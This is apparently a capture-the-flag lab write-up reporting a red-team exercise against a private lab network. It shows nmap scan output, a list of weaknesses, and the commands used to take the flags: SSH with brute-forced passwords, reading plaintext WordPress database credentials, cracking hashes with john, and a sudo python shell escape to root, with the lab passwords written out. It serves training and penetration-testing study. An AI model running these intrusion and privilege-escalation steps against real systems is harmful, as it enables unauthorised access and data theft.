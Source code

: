 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#exposed-services)
- [Critical Vulnerabilities](#critical-vulnerabilities)
- [Exploitation](#exploitation)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sS-sV -O 192.168.1.0/24
Nmap scan report for 192.168.1.1
Host is up (0.00057s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2179/tcp open  vmrdp?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 00:15:5D:00:04:0D (Microsoft)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP|7|2008 (89%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008::sp1
cpe:/o:microsoft:windows_server_2008:r2
Aggressive OS guesses: Microsoft Windows XP SP3 (89%), Microsoft Windows XP SP2 (87%), Microsoft Windows 7 (85%), Microsoft Windows Server 2008 SP1 or Windows Server 2008 R2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 192.168.1.100
Host is up (0.0010s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.105
Host is up (0.00071s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29
MAC Address: 00:15:5D:00:04:0F (Microsoft)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6, Linux 5.0 - 5.3
Network Distance: 1 hop
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.110
Host is up (0.00092s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.115
Host is up (0.00096s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.90
Host is up (0.000046s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 6 (protocol 2.0)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
Network Distance: 0 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (6 hosts up) scanned in 34.52 seconds
```

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios-ssn)
  - Port 445 (netbios-ssn)

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - `wpscan` enumerate usernames
    - running `wpscan` was able to enumerate usernames for the target system.
- ![wpscan](./Images/wpscan2.JPG)

  - `ssh` as user `michael` with password.
    - Users are able to `ssh` with a password instead of requiring an `ssh` key.
    - User `michael` had a weak password(Brute forced with `hydra`)
- ![hydrascan](./Images/Michael%20hydra%20crack%20password.JPG)

  - Database credentials for wordpress are written in plain text.
    - Database credentials were stored in /var/www/html/
    - This allowed me to access the mysql database and extract confidential information such as password hashes.
- ![sqlcredentials](./Images/MySQL%20password.JPG)

  - `ssh` with user `steven` credentials.
    - Users are able to `ssh` with a password instead of requiring an `ssh` key.
    - Running `john` against the password hashes gave user `steven`'s password.
    - This allowed me to find user `steven`'s sudo privilages.
- ![stevensudo](./Images/Steven%20sudo%20priv%20file.JPG)

  - `python` can be run with `sudo` privilages.
    - The user steven has the ability to run `python` with `sudo`.
    - Running `python` with `sudo` can execute arbitrary code on the system to get a shell with root access.
- ![pythonshell](./Images/pythonshell.JPG)

  - [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/)
    - The version of Samba running on this server allows an attacker to execute malicious code remotely.

  - [CVE-2017-3167](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-3167)
    - The version of Apache running on this server allows an attacker to bypass authentication by use of third party module.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  
  - `flag1`: `b9bbcb33e11b80be759c4e844862482d`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I was able to run the grep command in the `/var` directory and discovered flag1 was contained in `/var/www/html/service.html`.
    - Commands run:
      - `ssh michael@192.168.1.110` (password michael)
      - `cd /var`
      - `grep -rnw ./ -e flag1 2>/dev/null`
- ![flag1](./Images/flag1.JPG)

  - `flag2.txt`: `fc3fd58dcdad9ab23faca6e9a36e581c`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I was able to cat the flag 2 file found in `/var/www`.
    - Commands run:
      - `ssh michael@192.168.1.110` (password michael)
      - `cd /var/www`
      - `cat flag2.txt`
- ![flag2](./Images/flag2.JPG)

  - 'flag3': `afc01ab56b50591e7dccf93122770cd2`
    - **Exploit Used**
      - Datbase credentails in plain text.
      - I was able to select `flag3` out of wp_posts in the mysql database after obtaining the credentails in 		`/var/www/html/wp_config.php`.
    - Commands run:
      - `ssh michael@192.168.1.110` (password michael)
      - `cat /var/www/html/wp_config.php`
      - `mysql -u root -p` (password R@v3nSecurity)
      - `USE wordpress;`
      - `USE wp_posts;`
      - `SELECT * FROM wp_posts;`
- ![flag3](./Images/flag3.JPG)

  - 'flag4.txt': `715dea6c055b9fe3337544932f2941ce`
    - **Exploit Used**
      - `python` can be run with `sudo`.
      - After cracking steven's password hash using john the ripper, it was discovered that steven could run `python` with `sudo` 	priviliages.
      - Using a simple command I was able to execute a shell with root privilages and `flag4` was found in the `/root` directory.
    - Commands run:
      - `ssh steven@192.168.1.110 (password pink84)`
      - `python -c 'import os; os.system("/bin/sh")'`
      - `cat /root/flag4.txt`
- ![flag4](./Images/flag4.JPG)
